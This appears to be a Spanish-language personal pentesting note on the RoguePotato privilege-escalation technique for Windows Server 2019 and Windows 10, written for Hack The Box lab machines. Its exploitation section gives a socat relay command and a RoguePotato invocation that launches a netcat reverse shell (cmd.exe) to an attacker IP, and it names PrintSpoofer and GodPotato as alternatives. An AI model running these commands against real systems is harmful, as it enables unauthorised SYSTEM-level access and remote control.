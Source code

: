 
## DESCRIPTION

Igual que el Juicy potato pero para Windows Server 2019 o Windows 10

¿Que necesitamos?

![[Pasted image 20230221115231.png]]
Versiones afectadas: Server 2019 y 2010

#### Mas información
* https://book.hacktricks.xyz/windows-hardening/windows-local-privilege-escalation/roguepotato-and-printspoofer
* https://0xdf.gitlab.io/2020/09/08/roguepotato-on-remote.html

## EXPLOITATION

1. Necesitas ponerte a la escucha en la KALI:
```
socat tcp-listen:135,reuseaddr,fork tcp:10.10.10.180:9999
```

2. Subir a la máquina victima el ejecutable: https://github.com/antonioCoco/RoguePotato/releases/tag/1.0 --> [[TRANSFERRING FILES]]

3. Ejecutar en la máquina victima el comando

```
.\RoguePotato.exe -r <<YOUR_LISTENING_IP>> -e "<<command>>" -l 9999

#Ejemplo con nc (tambien subido)
c:\programdata\rg.exe -r 10.10.14.20 -e "c:\programdata\nc.exe 10.10.14.20 443 -e cmd.exe" -l 9999
```

![[Pasted image 20230228194904.png]]

**!!NOTA IMPORTANTE!!** 
	Si necesitamos cambiar el CSLID a un Windows Server 2019 le sirven los del Windows 10 Pro --> https://ohpe.it/juicy-potato/CLSID/Windows_10_Pro/

**!!NOTA IMPORTANTE!!** 
	Si da errores y podems subir una herramienta podemos probar PRINTSPOOFER -> https://github.com/itm4n/PrintSpoofer
	![[Pasted image 20230320191143.png]]
#### mejor probar si da problemas godpotatoe [[GOD POTATOE]]

## MACHINES

* Hack The Box: Remote, Worker

